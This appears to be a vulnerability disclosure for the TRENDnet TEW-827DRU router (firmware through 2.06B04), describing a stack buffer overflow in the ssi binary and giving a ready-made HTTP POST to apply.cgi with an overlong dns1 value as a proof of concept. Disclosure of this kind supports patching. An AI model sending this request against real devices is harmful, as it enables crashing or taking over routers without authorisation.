

# TEW-827DRU
## Firmware version
TEW-827DRU devices through 2.06B04
## description
TRENDnet TEW-827DRU devices through 2.06B04 contain a stack-based buffer overflow in the ssi binary. The overflow allows an authenticated user to execute arbitrary code by POSTing to apply.cgi via the action vlan_setting with a sufficiently long dns1 or dns 2 key.
## detail
The bug in function 0x4434B0, binary www/cgi/ssi
The parameter 'dns1' pass to sprintf


## Send package
```txt
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

action=vlan_setting&method=static&dns1='a'*0x100&dns2=a
```
